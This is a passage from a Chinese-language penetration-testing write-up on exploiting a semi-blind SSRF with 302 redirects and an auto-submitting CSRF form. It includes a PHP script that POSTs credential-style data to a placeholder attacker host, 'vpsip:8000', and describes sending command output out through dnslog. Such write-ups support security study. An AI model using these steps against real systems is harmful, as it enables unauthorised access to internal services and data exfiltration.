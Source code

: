 ```
https://zone.huoxian.cn/d/392
```  
  
  
土司上也有师傅写过用302跳转对discuz的ssrf进行利用的案例：  
```
https://www.t00ls.cc/articles-62210.html
```  
  
  
302.php发出POST请求：  
  
```
        <?php
        /**
         * 发送post请求
         * @param string $url 请求地址
         * @param array $post_data post键值对数据
         * @return string
         */
        function send_post($url, $post_data){
            $postData = http_build_query($post_data);
            $options = array(
                'http' => array(
                    'method' => 'POST',
                    'header' => 'Content-type:application/x-www-form-urlencoded',
                    'content' => $postData,
                    'timeout' => 15 * 60// 超时时间（单位:s）
                )
            );
            $context = stream_context_create($options);
            $result = file_get_contents($url, false, $context);
        
            return $result;
        }
        
        //使用方法
        $post_data = array(
            'username' => 'stclair2201',
            'password' => 'handan'
        );
        send_post('http://vpsip:8000', $post_data);
        ?>
```  
  
- 结合csrf自动提交POST表单。条件：支持跳转，无refer限制。前文提到，目标服务器可能是通过浏览器访问后再截图，因此重定向是可以实现的，这里提供一种比302跳转更方便的解决方案，直接用burp生成csrf poc，然后加入一段js来自动提交表单，这样也类似于302重定向的利用方式了。  
  
  
  
  
**0x10**  
  
  
当前场景，结合csrf自动提交POST表单的方法是最方便的，因为是半回显ssrf，命令执行结果在截图中无法提现，可通过dnslog将命令执行结果外带，漏洞请求包：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTia3MfOWYXa4Ae0kSHLVowGF1dYqyZnqLqe9xgxjCH4icy1tZLmicxvtlbkMWC3uo4icDRMXN76ANYibA/640?wx_fmt=png "")  
  